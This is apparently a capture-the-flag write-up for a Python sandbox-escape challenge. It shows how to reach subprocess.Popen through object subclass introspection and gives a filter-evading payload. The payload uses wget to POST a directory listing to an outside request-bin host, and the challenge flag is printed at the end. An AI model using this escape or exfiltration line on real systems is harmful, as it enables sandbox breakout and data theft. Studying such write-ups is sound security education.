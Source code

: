 # Python learning environment

## Limitations

Entering the page, we can see that multiple limitations are imposed, like no integers, no ```[]```, no ```func_code``` and stuff.

## Google-fu

Googling how to escape pyjails we see:

```python
x = ().__class__.__base__.__subclasses__()
```

Executing this gives us all imported modules, and we can see subprocess.Popen in there

### Popen

```
x = ().__class__.__base__.__subclasses__()
for p in x:
    if p.__name__ == "Popen":
        print p
```

We can get the Popen method like this. Now we just need to craft the payload

## Payload

The payload I used what to retrieve the files in current directory and then POST it to postb.in:

```
p(" ".join(('wget,https://po'+'stb.in/vKvqSQcp/,--po'+'st-data,"a=$(ls)"').split(',')), shell=c)
```

## Flag

```
F#{PyTh0n_Pr1s0n_br3aK}
```

